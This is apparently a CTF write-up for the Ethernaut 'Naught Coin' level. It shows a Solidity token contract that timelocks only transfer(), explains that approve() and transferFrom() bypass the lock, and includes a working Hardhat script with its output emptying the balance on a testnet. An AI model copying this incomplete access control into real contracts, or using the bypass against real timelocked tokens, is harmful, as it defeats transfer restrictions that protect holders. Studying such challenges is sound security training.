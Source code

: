 ```yaml
---
title: Ethernaut Naught Coin
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Naught Coin challenge writeup
---
```


## Naught Coin

### Challenge

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help

* The [ERC20](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) Spec
* The [OpenZeppelin](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) codebase


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = now + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0')
  public {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

### Background

This challenge is very simple if one knows/learns the `erc20` interface. If we look closely there is more than one ways `erc20` tokens can be transfered.

`approve(address spender, uint256 amount)` and `function transferFrom(address from, address to, uint256 amount)` are functions that allow someone to spend tokens without being the owner. Those functions are useful when interacting with some middleman/broker contract. For example a user might want to buy an NFT from a marketplace. The user can allow the marketplace contract to spend funds by calling the `approve` function with the address of the marketplace and the amount the marketplace can spend. Then, when the swap is to happen, the marketplace can `transferFrom` the original address to some address up to the amount that was approved.

### Attack

The contract here only timelocks the `transfer` function, not the `transferFrom` and `approve` functions. This will allow the owner of the tokens to `approve` some address (even its self) to spend the tokens, and then use `transferFrom` to send them to another account.

* use the `approve` function to allow some address (even self) to spend the full amount of tokens
* use the `transferFrom` function to send the funds to some other account


#### nauthg-coin-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    naughtCoinAddress = "0xC316BA23E78dB02313f32C386C3773960d76C9dA";
    contract = await ethers.getContractAt("NaughtCoin", naughtCoinAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address: " + contract.address)

    // get current balance
    balance = await contract.balanceOf(account.address)
    console.log("Current Balance: " + balance)

    // approve self to spend funds
    tx = await contract.connect(account).approve(account.address, balance)
    receipt = await tx.wait()

    // spend funds using transferFrom
    tx = await contract.connect(account).transferFrom(account.address, accounts[1].address, balance)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance: " + await contract.balanceOf(account.address))
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/naught-coin-solve.js --network rinkeby
Level address  : 0xC316BA23E78dB02313f32C386C3773960d76C9dA
Current Balance: 1000000000000000000000000
New Balance    : 0
```

### Success Message

When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.
